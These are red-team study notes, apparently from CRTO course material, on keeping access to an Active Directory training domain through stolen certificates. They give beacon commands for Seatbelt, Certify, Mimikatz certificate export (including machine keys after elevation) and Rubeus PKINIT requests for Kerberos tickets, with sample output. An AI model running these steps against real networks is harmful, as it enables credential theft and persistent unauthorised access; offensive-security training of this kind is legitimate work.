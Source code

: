 
Certificates tend to have a longer life compared to passwords.
They only become invalid if they're revoked by the CA. 
They don't rely on vulnerable templates.
We can extract certificates issued or request new ones. 

#### 🖊️ User Persistence

User certificates that have already been issued can be found in the user's Personal Certificate store. 

1) If we have a Beacon running on their machine, we can enumerate their certificates with Seatbelt.

`beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe Certificates`

  ⚠ Always ensure the certificate is used for client authentication.


==If the user does not have a certificate in their store, we can just request one with Certify.  ```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:User ```

  
2) Export it with Mimikatz `crypto::certificates` (although it drops them to disk):

`beacon> mimikatz crypto::certificates /export`

3) Download it and Base64 encode the pfx file

`ubuntu@DESKTOP-3BSK7NO ~> cat /mnt/c/Users/Attacker/Desktop/CURRENT_USER_My_0_Nina\ Lamb.pfx | base64 -w 0`

4) Then use it with Rubeus to obtain a TGT.  The export password will be `1234`:

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /certificate:MIINeg[...]IH0A== /password:mimikatz /nowrap`

⚠ You may notice that this will request RC4 tickets by default.  You can force the use of AES256 by including the `/enctype:aes256` parameter.


#### 📔 Computer Persistence

We must **elevate** to extract those certificates

```
beacon> mimikatz !crypto::certificates /systemstore:local_machine /export

    Public export  : OK - 'local_machine_My_0_wkstn-1.dev.cyberbotic.io.der'
    Private export : OK - 'local_machine_My_0_wkstn-1.dev.cyberbotic.io.pfx'
```

2) Just like a user certificate, convert it and then use it to request the TGT:

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:WKSTN-1$ /enctype:aes256 /certificate:MIINCA[...]IH0A== /password:mimikatz /nowrap

[*] Action: Ask TGT

[*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=wkstn-1.dev.cyberbotic.io 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'dev.cyberbotic.io\WKSTN-1$'
[*] Using domain controller: 10.10.122.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

    doIGYD[...]5pbw==
```

❗ If you want the certificate of another machine, you will use the `/machine` parameter but you must auto-elevate to SYSTEM and assume the identity of the computer account

`beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:Machine /machine`


#### ⚠ Opsec




### Properties
---
📆 created   {{20-02-2024}} 11:05
🏷️ tags: #redteam #crto 

---

